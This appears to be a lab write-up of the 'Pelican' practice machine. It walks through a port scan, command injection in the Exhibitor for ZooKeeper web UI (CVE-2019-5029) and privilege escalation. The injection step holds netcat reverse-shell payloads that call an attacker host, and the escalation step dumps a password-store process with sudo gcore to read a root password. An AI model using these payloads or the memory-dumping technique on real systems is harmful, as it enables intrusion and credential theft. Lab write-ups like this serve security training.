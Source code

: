 ```yaml
---
description: 11/28/2022
---
```


# Pelican (Intermediate)

## Information Gathering

Scanned all TCP ports:

```
PORT      STATE SERVICE     VERSION
22/tcp    open  ssh         OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
| ssh-hostkey: 
|   2048 a8e16068bef58e707054b427ee9a7e7f (RSA)
|   256 bb999a453f350bb349e6cf1149878d94 (ECDSA)
|_  256 f2ebfc45d7e9807766a39353de00579c (ED25519)
139/tcp   open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp   open  netbios-ssn Samba smbd 4.9.5-Debian (workgroup: WORKGROUP)
631/tcp   open  ipp         CUPS 2.2
|_http-title: Forbidden - CUPS v2.2.10
| http-methods: 
|   Supported Methods: GET HEAD OPTIONS POST PUT
|_  Potentially risky methods: PUT
|_http-server-header: CUPS/2.2 IPP/2.1
2181/tcp  open  zookeeper   Zookeeper 3.4.6-1569965 (Built on 02/20/2014)
2222/tcp  open  ssh         OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
| ssh-hostkey: 
|   2048 a8e16068bef58e707054b427ee9a7e7f (RSA)
|   256 bb999a453f350bb349e6cf1149878d94 (ECDSA)
|_  256 f2ebfc45d7e9807766a39353de00579c (ED25519)
8080/tcp  open  http        Jetty 1.0
|_http-title: Error 404 Not Found
|_http-server-header: Jetty(1.0)
8081/tcp  open  http        nginx 1.14.2
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-title: Did not follow redirect to http://192.168.211.98:8080/exhibitor/v1/ui/index.html
|_http-server-header: nginx/1.14.2
44091/tcp open  java-rmi    Java RMI
Service Info: Host: PELICAN; OS: Linux; CPE: cpe:/o:linux:linux_kernel

Host script results:
| smb2-security-mode: 
|   311: 
|_    Message signing enabled but not required
| smb2-time: 
|   date: 2022-11-28T23:54:26
|_  start_date: N/A
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb-os-discovery: 
|   OS: Windows 6.1 (Samba 4.9.5-Debian)
|   Computer name: pelican
|   NetBIOS computer name: PELICAN\x00
|   Domain name: \x00
|   FQDN: pelican
|_  System time: 2022-11-28T18:54:26-05:00
|_clock-skew: mean: 1h40m00s, deviation: 2h53m12s, median: 0s
```

Enumerated UDP ports:

```
5353/udp  open          mdns            DNS-based service discovery
| dns-service-discovery: 
|   445/tcp smb
|     Address=192.168.211.98
|   Device Information
|_    Address=192.168.211.98
```

Notes:

* 445/Samba -- Anonymous login no access
* 631/CUPS 2.2
* 2181/zookeeper HTTP
* 8080/HTTP Server -- <mark style="color:yellow;">"Exhibitor" for ZooKeeper - v1.0</mark>
  * <mark style="color:yellow;">This seems very unique let's searchsploit it</mark>
  * <mark style="color:red;">Exhibitor Web UI 1.7.1 - Remote Code Execution -- 48654.txt</mark>

## Enumeration

### Port 8080 - HTTP (Jetty 1.0)

<mark style="color:yellow;">Searchsploit</mark>:&#x20;

<figure><img src="../../../.gitbook/assets/image (2) (1) (8).png" alt=""><figcaption></figcaption></figure>

* <mark style="color:yellow;">CVE-2019-5029</mark>

Version Enumeration:&#x20;

<figure><img src="../../../.gitbook/assets/image (1) (1) (1) (5) (1).png" alt=""><figcaption><p>v1.0 -- Confirming vulnerability to CVE-2019-5029</p></figcaption></figure>

## Exploitation

### <mark style="color:yellow;">Command Injection - CVE-2019-5029</mark>

48654.txt:

```
The steps to exploit it from a web browser:

    Open the Exhibitor Web UI and click on the Config tab, then flip the Editing switch to ON

    In the “java.env script” field, enter any command surrounded by $() or ``, for example, for a simple reverse shell:

    $(/bin/nc -e /bin/sh 10.0.0.64 4444 &)
    Click Commit > All At Once > OK
    The command may take up to a minute to execute.
```

Exploitation/Obtaining Foothold

1. Navigate to Config
2. Select on next to Editing
3. Next to java.env script, add the following <mark style="color:yellow;">`$(/bin/nc -e /bin/sh 192.168.49.211 1337 &)`</mark>
4. Start nc listener on 1337
5. Select commit > all at once > ok
6. Wait a few seconds for the command to execute and you will get your shell!

<figure><img src="../../../.gitbook/assets/image (5) (2).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../../.gitbook/assets/image (3) (1) (7).png" alt=""><figcaption></figcaption></figure>

Fix shell:

```
python3 -c 'import pty;pty.spawn("/bin/bash")'
```

## Privilege Escalation

Attempted to exploit Polkit but it did not work for some reason because SSH kept asking for a password even when I would generate SSH keys on the target and transfer it to Kali -- Moving on.

* Uploaded linpeas and found a few interesting things

<figure><img src="../../../.gitbook/assets/image (6) (5).png" alt=""><figcaption><p>password-store looks interesting</p></figcaption></figure>

sudo -l command output:

<figure><img src="../../../.gitbook/assets/image (2) (3) (5).png" alt=""><figcaption></figcaption></figure>

GTFOBins:

<figure><img src="../../../.gitbook/assets/image (5) (4).png" alt=""><figcaption></figcaption></figure>

* We see that gcore can be used to generate core dumps of running processes
* Files often containing sensitive information can be targetted this way
* Since we can leverage our permissions with <mark style="color:yellow;">sudo + gcore, can we dump password-store</mark>?

<figure><img src="../../../.gitbook/assets/image (4) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption><p>using ps command to find pid of password-store to use with gcore</p></figcaption></figure>

* We see that <mark style="color:yellow;">password-store has a PID of 493</mark>
* Time to run <mark style="color:yellow;">gcore</mark> on it

gcore (create dump of PID 493):

```
sudo gcore 493
(...)

Saved corefile core.493
```

* Dump was saved as core.493

Reading contents of dump with strings:

```
strings core.493

(...)
Password: root:
ClogKingpinInning731
(...)
```

* We seemingly obtain the root password

```
su
Password: ClogKingpinInning731
```

<figure><img src="../../../.gitbook/assets/image (1) (10).png" alt=""><figcaption><p>We are root!</p></figcaption></figure>
